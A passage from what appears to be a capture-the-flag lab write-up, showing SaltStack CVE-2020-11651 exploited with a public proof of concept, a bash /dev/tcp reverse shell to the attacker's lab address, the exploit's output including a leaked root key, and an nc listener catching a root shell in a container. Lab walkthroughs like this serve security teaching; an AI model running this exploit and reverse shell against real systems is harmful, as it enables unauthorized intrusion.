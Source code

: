     
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    15:32:16.127560 IP 10.10.10.205 > 10.10.14.15: ICMP echo request, id 9630, seq 1, length 64
    15:32:16.127615 IP 10.10.14.15 > 10.10.10.205: ICMP echo reply, id 9630, seq 1, length 6
    

#### Shell

I’ll just change the command to a reverse shell:

    
    
    root@kali:/opt/CVE-2020-11651-poc# proxychains python3 exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1"'
    ProxyChains-3.1 (http://proxychains.sf.net)
    [!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
    [+] Checking salt-master (127.0.0.1:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651... YES
    [*] root key obtained: HWxqacQWZGow8QrRBTcMKALAYRqsdT2t30kwsV8MBIYk03o/4UV8puHk788hKPT4mPdRg55WyEI=
    [+] Attempting to execute bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1" on 127.0.0.1
    [+] Successfully scheduled job: 20200901193454581517
    

At `nc`, I get a shell as root in a container:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.205.
    Ncat: Connection from 10.10.10.205:39680.
    bash: cannot set terminal process group (9655): Inappropriate ioctl for device
    bash: no job control in this shell
    root@2d24bf61767c:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

## Shell as root

### Enumeration

In the root home directory, there’s a `todo.txt`:

    
    
    - Add saltstack support to auto-spawn sandbox dockers through events.
    - Integrate changes to tomcat and make the service open to public.
    

That’s interesting, but it doesn’t mean a ton to me. They are looking to use
events to spawn docker containers.

The breakthrough came on looking at the Bash history:
